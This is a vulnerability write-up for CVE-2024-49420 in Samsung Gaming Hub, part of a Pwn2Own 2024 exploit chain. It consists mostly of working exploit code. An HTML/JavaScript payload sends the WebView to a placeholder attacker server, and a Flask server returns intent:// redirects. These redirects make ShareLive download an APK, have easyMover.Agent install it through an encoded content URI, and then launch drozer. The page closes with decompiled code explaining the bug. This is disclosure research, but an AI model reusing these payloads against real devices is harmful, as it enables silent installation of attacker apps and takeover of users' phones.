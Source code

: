 ```yaml
---
layout: cve
title: "Samsung GamingHub Arbitrary Launch Activity - CVE-2024-49420"
cve_id: "CVE-2024-49420"
date: 2024-12-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-49420
  - https://security.samsungmobile.com/securityUpdate.smsb?year=2024&month=12
description: "Improper handling of responses in GamingHub prior to version 6.1.04.6 in Korea, 7.1.03.7 in Global allows remote attackers to launch arbitrary activity."
---
```


The below snippet is taken from the full white paper, available here: [https://maliciouserection.com/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html](/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html)

I think you should read the white paper instead :)

--------------------------------------------------------

#### Exploit Payload

Two payloads are used for this bug. The first payload is the HTML content that is hosted at the URL `https://us.mcsvc.samsung.com.maliciouserection.com?yayattackeryay=<attackerServer>`. Due to bugs 1 and 2, the Gaming Hub WebView will load and execute the below HTML code.

```
yaytrampolineyay
<script>

// get hostname and port
var yayquerystringyay = window.location.search;
var yayurlparamsyay = new URLSearchParams(yayquerystringyay);
var yayattackeryay = yayurlparamsyay.get('yayattackeryay');

// open sharelive to start awareservice
location.href="http://" + yayattackeryay + "/yaylaunchshareliveyay";

// redirect after 2 seconds
const yayshorttimeoutyay = setTimeout(yaystartyay, 2000);

// open sharelive and retrieve file
function yaystartyay() {
        location.href="http://" + yayattackeryay + "/yayshareliveyay";
}

// redirect after 15 seconds
const yaytimeoutyay = setTimeout(yayfinalyay, 15000);

// redirect to launch easymover agent
function yayfinalyay() {
        location.href="http://" + yayattackeryay + "/yayfinalyay";

        // redirect after another 15 seconds
        const yaytimeout2yay = setTimeout(yaylaunchyay, 15000);
}

// launch drozer
function yaylaunchyay() {
        location.href="http://" + yayattackeryay + "/yaylaunchyay";
}

</script>
```

The second payload is a Python script that is hosted at an attacker controlled server. There is no IP address or domain requirements for this web server, as long as the server can be reached via HTTP/S.

By running the below Python script, the attacker will run a Flask based web server:

```
from flask import Flask, redirect, url_for, send_from_directory

app = Flask(__name__)

# Route for serving index.html
@app.route('/')
def index():
    return send_from_directory('', 'index.html')

# redirect to open com.sec.android.easyMover.Agent
@app.route('/yayfinalyay')
def yayfinalyay():
    return redirect("intent://#Intent;component=com.sec.android.easyMover.Agent/.ui.SsmUpdateCheckActivity;action=com.sec.android.easyMover.Agent.WATCH_INSTALL_SMART_SWITCH;S.MODE=DIALOG;S.ssm_action=yayactionyay;S.ssm_uri=%63%6f%6e%74%65%6e%74%3a%2f%2f%63%6f%6d%2e%73%61%6d%73%75%6e%67%2e%67%70%75%77%61%74%63%68%61%70%70%2e%48%74%6d%6c%44%75%6d%70%50%72%6f%76%69%64%65%72%2f%79%61%79%2e%61%70%6b;end;", code=302)

# launch sharelive to stare aware service
@app.route('/yaylaunchshareliveyay')
def yaylaunchshareliveyay():
    return redirect("intent://#Intent;component=com.samsung.android.app.sharelive/.presentation.main.MainActivity;end;", code=302)

# sharelive to download yay.apk to arbitrary location
@app.route('/yayshareliveyay')
def yayshareliveyay():
    yayqrcodeyay = "88AKqZwy2Hmr"
    return redirect("intent://qr.quickshare.samsungcloud.com/" + yayqrcodeyay + "#Intent;component=com.samsung.android.app.sharelive/com.samsung.android.app.sharelive.presentation.applink.QrCodeAppLinkActivity;scheme=https;end;", code=302)

# launch drozer
@app.route('/yaylaunchyay')
def yaylaunchyay():
    return redirect("intent://#Intent;component=com.yaydevhackmodyay.drozer/com.mwr.dz.activities.MainActivity;end;", code=302)

# pichu dancing
@app.route('/pichu-dance.gif')
def pichuDance():
    return send_from_directory('', 'pichu-dance.gif')

if __name__ == '__main__':
    context = ('cert.pem', 'key.pem')
    app.run(debug=True, port=8000, host="0.0.0.0")
```

#### Exploit Details

Continuing to exploit the Gaming Hub application, the loaded WebView contains code that will execute different actions based on the type of data that is received from the loaded web server.

When the WebView receives a 302 Redirect code from the web server, the class `com.samsung.android.game.gamehome.gmp.ui.web.o` method `shouldOverrideUrlLoading(WebView, WebResourceRequest)` is executed. From there, the redirection URL is analyzed.

If the redirection URL has a scheme value of `intent://`, then the URL is passed to class `com.samsung.android.game.gamehome.gmp.ui.web.GmpWebActivity` method `f(Uri, int)`.

```
public final class o extends WebViewClient {
    public final p a; // interface linked with GmpWebActivity
...
    public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
        boolean q;
        ...
        String yayschemeyay = request.getUrl().getScheme();
        Uri yayurlyay = request.getUrl();
        ...
        q = o.q("intent", yayschemeyay, true); // checks if first 2 objects match
        if (q) {
            this.a.f(url, a(yayurlyay)); // checks if the url authority value is either `instantplays` or `cloudgame`
            return true;
        }
```

Class `GmpWebActivity` method `f(Uri, int)` takes the incoming URL and passes it to Android's internal Intent parser. The Intent parser is commonly used to craft Intent objects based on the incoming URI value. After the Intent object is created, `startActivity(Intent)` is executed against the Intent object.

```
public final class GmpWebActivity extends s implements n, p {
...
    public void f(Uri yayurlyay, int i) {
        Intent yayintentyay = Intent.parseUri(yayurlyay.toString(), 0);
        yayintentyay.addFlags(i);
        ...
        a.b(a, this, yayintentyay, false, 2, null);
    }
... 
```
```
public final class a {
...
    public static boolean b(a a, Context context, Intent yayintentyay, boolean z, int i, Object obj) {
        ...
        return a.a(context, yayintentyay, z);
    }
    ...
    public final boolean a(Context context, Intent yayintentyay, boolean z) {
        ...
        try {
            context.startActivity(yayintentyay);
            return true;
        ...
    }
```

#### BUG 3 – Start Arbitrary Exported Activities

If the web server sends a 302 Redirect HTTP code with a redirect URL starting with `intent://`, the WebView in Gaming Hub can be forced to start arbitrary activities.

In our exploit chain, the URL `https://us.mcsvc.samsung.com.maliciouserection.com?yayattackeryay=<attackerServer>` contains HTML code which runs JavaScript. This JavaScript forces the WebView to make a GET request to the attacker controlled server, defined by the GET parameter "<attackerServer>".

An attacker should run the previously mentioned Python script, which will host the web server at "<attackerServer>". This Python script simply returns a `302 Redirect HTTP` code, along with different URIs with `intent://` schemes. 

For example, if a GET request is made to "http://<attackerServer>/yaylaunchshareliveyay", the Python script will return a 302 Redirect HTTP code with the following URI:

```
intent://#Intent;component=com.samsung.android.app.sharelive/.presentation.main.MainActivity;end;
```

When the Gaming Hub WebView receives this URI, it will:

* Pass the URI to Android's internal Intent parser
* Craft an Intent object based on the URI
* Run `startActivity(Intent)` against the Intent Object

The rest of this exploit chain heavily relies on the ability to launch arbitrary exported Activities due to sending different 302 Redirect URIs.